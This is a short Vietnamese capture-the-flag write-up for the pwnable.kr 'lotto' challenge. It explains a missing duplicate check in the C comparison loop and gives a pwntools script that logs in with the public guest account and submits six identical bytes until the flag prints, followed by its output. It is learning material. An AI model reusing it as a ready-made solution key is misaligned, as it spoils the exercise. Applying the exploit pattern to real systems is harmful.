 Binary này dùng để so sánh 6 bytes người dùng nhập vào với 6 bytes được random ngẫu nhiên nằm trong khoảng (1-45).
Tuy nhiên lỗi là ở đoạn code:

```c
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

Chỉ cần nhập một chuỗi ký tự có cả 6 ký tự như nhau (Mã ascii từ 1 - 45) => Chỉ cần 1 ký tự random trùng với ký tự được nhập => Get flag

```python
from pwn import *

sh = ssh('lotto', 'pwnable.kr', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(45):
    p.sendlineafter(b"Exit\n", b"1")
    p.sendlineafter(b"bytes : ", b'!!!!!!')
    p.recvline()
    data = p.recvline()
    if b"bad luck..." not in data:
        print(data)
        break
```

```bash
└─$ python3 sol.py 
[+] Connecting to pwnable.kr on port 2222: Done
[*] lotto@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[+] Starting remote process None on pwnable.kr: pid 415165
[!] ASLR is disabled for '/home/lotto/lotto'!
b'sorry mom... I FORGOT to check duplicate numbers... :(\n'
```

### cmd1

```
Start day: 9/3/2025
End day: 9/3/2025
Evaluate: Beginner
```
